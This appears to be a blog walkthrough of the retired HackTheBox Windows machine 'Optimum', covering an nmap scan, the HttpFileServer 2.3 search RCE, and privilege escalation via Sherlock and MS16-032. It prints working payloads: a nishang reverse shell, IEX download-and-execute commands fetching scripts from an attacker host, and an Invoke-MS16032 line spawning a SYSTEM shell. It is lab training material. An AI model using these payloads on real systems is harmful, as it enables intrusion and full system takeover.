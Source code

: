 ```yaml
---
title: Optimum - HackTheBox Walkthrough
date: 2021-10-21 12:00:00 
categories: [HackTheBox,Windows]
tags: [sherlock,nishang,empire]
img_path: /assets/img/HTB/Optimum/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Optimum` a retired windows machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan                                   
# Nmap 7.91 scan initiated Wed Oct 20 09:58:51 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.1.127
Nmap scan report for 10.129.1.127
Host is up (0.12s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 20 09:59:11 2021 -- 1 IP address (1 host up) scanned in 20.58 seconds
```
There one port open `80:HTTP`.
## HTTP Enumeration
Let's check it out.

![01-web](01-web.png)

The web site is a `HttpFileServer 2.3` which has a RCE where the attacker can execute commands in a search action.
```text
http://10.129.1.127/?search=%00{.payload.}
```
# Initial Foothold
I used [nishang](https://github.com/samratashok/nishang) to create a reverse shell.

```console
$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 rev.ps1
$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.75 -Port 443' >> rev.ps1
```
With a python HTTP server and a netcat listener port I executed the next command using PowerShell in the `sysNative` directory to get a 64-bit shell.
```text
%00{.exec|C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).downloadString('http://10.10.14.75/rev.ps1').}
```

![02-burp](02-burp.png)

# Privilage Escalation
To get the system information from the target machine just run `systeminfo`

![03-sysinfo](03-sysinfo.png)

Clone [Sherlock](https://github.com/rasta-mouse/Sherlock) and add this line `Find-AllVulns` at the end to call that function.

![04-sherlock](04-sherlock.png)

Execute it on the victim machine. 
```text
IEX(New-Object Net.WebClient).downloadString("http://10.10.14.75/Sherlock.ps1")
```
It give us a list with some vulnerabilities of this windows version, the most interesting is `MS16-032`.

![05-sherlock](05-sherlock.png)

With this [exploit](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1), the only thing we have to do is add this line at the end to run a reverse shell:

```text
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.75/rev.ps1')"
```

![06-empire](06-empire.png)

And we get the shell in our listener port 443.

![07-nc](07-nc.png)

We got root.txt  

![08-root](08-root.png)

That’s it for now guys. Until next time.
# Resources
- https://www.thewindowsclub.com/sysnative-folder-in-windows-64-bit
- https://github.com/EmpireProject/Empire
